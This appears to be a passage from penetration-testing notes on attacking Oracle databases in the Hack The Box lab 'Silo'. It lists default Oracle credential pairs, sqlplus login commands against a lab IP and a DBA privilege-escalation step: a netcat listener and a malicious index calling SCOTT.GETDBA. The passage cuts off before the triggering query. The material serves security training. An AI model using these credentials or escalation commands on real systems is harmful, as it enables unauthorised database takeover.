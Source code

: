 ```
SYSTEM/MANAGER
SYS/CHANGE_ON_INSTALL
DBSNMP/DBSNMP
SCOTT/TIGER
PCMS_SYS/PCMS_SYS
WMSYS/WMSYS
OUTLN/OUTLN
system/manager
sys/change_on_install
dbsnmp/dbsnmp
scott/tiger
pcms_sys/pcms_sys
wmsys/wmsys
outln/outln
```

## Connecting to Oracle DB

To interact with Oracle from our Kali box, there are three tools that can come in handy. sqlplus is required for odat to work properly:&#x20;

Sqlplus will be installed with odat. So just install odat (apt install odat)&#x20;

### Connect as normal user:

```
root@kali:~/hackthebox/silo# sqlplus SCOTT/tiger@10.10.10.82:1521/XE 
SQL*Plus: Release 12.2.0.1.0 Production on Thu Apr 26 08:54:27 2018 

Copyright (c) 1982, 2016, Oracle.  All rights reserved. 

Connected to: 
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production 
 
SQL> 
```

### Connect as sysdba:

```
sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
```

## Privilege escalation

**Can also do the Metasploit module**

&#x20;**** Oracle priv esc and obtain DBA access:&#x20;

**Run netcat**: netcat -nvlp 443 code&#x20;

`SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));`&#x20;

**Run the exploit with a select query:**&#x20;
